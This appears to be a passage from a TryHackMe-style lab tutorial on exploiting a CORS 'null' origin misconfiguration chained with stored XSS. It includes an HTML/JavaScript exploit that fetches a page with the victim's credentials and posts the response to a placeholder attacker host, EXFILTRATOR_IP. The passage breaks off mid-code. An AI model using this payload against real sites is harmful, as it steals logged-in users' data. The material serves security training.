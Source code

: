 ```php
<?php
header('Access-Control-Allow-Origin: null');
header('Access-Control-Allow-Credentials: true');
?>
```

The "null" origin usually occurs when an HTML page is loaded locally using the `file:///` protocol or inside an iframe.

![Null origin in the response](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/84dd592fc588146fe095dc5b5c3927c8.png)  

To exploit the vulnerable code above, an attacker can create a malicious webpage with an iframe containing a javascript code that makes cross-origin requests to the target application.

#### XSS + CORS

We can use the vulnerable application at [http://corssop.thm/xss.php](http://corssop.thm/xss.php) to chain XSS with CORS. The application is designed to accept JavaScript or HTML code and then save it to the database. This means you can inject JavaScript or HTML code into the application, and once the victim visits the application, the payload will be executed.

![Sample XSS payload with a basic alert box](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/7014d79bc18957e4809e6dd67e23fd11.png)  

Below is a sample exploit code designed to exfiltrate the data from null.php while using the victim's session. Make sure to change the EXFILTRATOR_IP variable with your IP address.

```html
<div style="margin: 10px 20px 20px; word-wrap: break-word; text-align: center;">
    <iframe id="exploitFrame" style="display:none;"></iframe>
    <textarea id="load" style="width: 1183px; height: 305px;"></textarea>
  </div>

  <script>
    // JavaScript code for the exploit, adapted for inclusion in a data URL
    var exploitCode = `
      <script>
        function exploit() {
          var xhttp = new XMLHttpRequest();
          xhttp.open("GET", "http://corssop.thm/null.php", true);
          xhttp.withCredentials = true;
          xhttp.onreadystatechange = function() {
            if (this.readyState == 4 && this.status == 200) {
              // Assuming you want to exfiltrate data to a controlled server
              var exfiltrate = function(data) {
                var xhr = new XMLHttpRequest();
                xhr.open("POST", "http://EXFILTRATOR_IP/receiver.php", true);
                xhr.withCredentials = true;
                var body = data;
                var aBody = new Uint8Array(body.length);
                for (var i = 0; i < aBody.length; i++)
                  aBody[i] = body.charCodeAt(i);
                xhr.send(new Blob([aBody]));
              };
              exfiltrate(this.responseText);
            }
          };
          xhttp.send();
        }
        exploit();
      <\/script>
    `;

    // Encode the exploit code for use in a data URL
    var encodedExploit = btoa(exploitCode);

```